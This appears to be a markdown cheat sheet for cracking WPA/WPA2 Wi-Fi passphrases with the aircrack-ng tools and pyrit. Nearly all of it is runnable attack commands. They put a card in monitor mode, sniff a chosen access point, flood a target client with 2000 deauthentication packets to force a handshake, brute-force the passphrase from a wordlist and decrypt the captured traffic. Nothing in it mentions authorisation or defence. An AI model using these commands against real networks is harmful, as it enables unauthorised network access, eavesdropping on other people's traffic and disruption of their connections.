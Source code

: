 # Crack WPA/WPA2

### Enable Monitor Mode

* Kill these processes BEFORE putting the card in monitor mode

```text
airmon-ng check kill
```

* Enable monitor mode

```text
airmon-ng start wlan0
```

### Disable Monitor Mode

* Take card out of monitor mode

```text
airmon-ng stop wlan0mon
```

* Restart network manager

```text
service network-manager start
```

### Find and Sniff Network

* Find the network that we want

```text
airodump-ng wlan0mon
```

* Sniff and save packets

```text
airodump-ng --bssid <AP MAC> --channel <#> --write Desktop/WPAcapture wlan0mon
```

### Deauth Attack

* Find the devices on a network

```text
airodump-ng --bssid <AP MAC> --channel <#> wlan0mon
```

* Send deauth packets

```text
aireplay-ng --deauth 2000 -a <AP MAC> -c <TARGET MAC> wlan0mon
```

### Crack WPA / WPA2 Passphrase

* Capture handshake

```text
airodump-ng --bssid <AP MAC> --channel <#> --write Desktop/Captures/WPAsample wlan0mon
```

* Loop through passwords

```text
aircrack-ng Desktop/Captures/WPAsample-01.cap -w Desktop/Lists/passwords_top_1000.txt
```

* Decrypt packets

```text
airdecap-ng -e 'HOMEWIFI' -p bacon123 Desktop/Captures/WPAsample-01.cap
```

### Use pyrit for Faster Cracking \#\#

```text
pyrit list_cores
pyrit -r <CAPTURE FILE> analyze
pyrit eval
pyrit -i <PASS FILE> import_passwords
```

## Note: If you want to import more passwords, just use the same command with a different filename

```text
pyrit -e HOMEWIFI create_essid
pyrit eval
```

* Pyrit has automatically filtered passwords that are not suitable for WPA\(2\)-PSK and also sorted out duplicates

```text
pyrit batch
pyrit -r <CAPTURE FILE> attack_db
```

* Delete ESSID from database

```text
pyrit -e HOMEWIFI delete_essid
```

* Delete passwords

```text
rm -rf .pyrit/blobspace/password/
```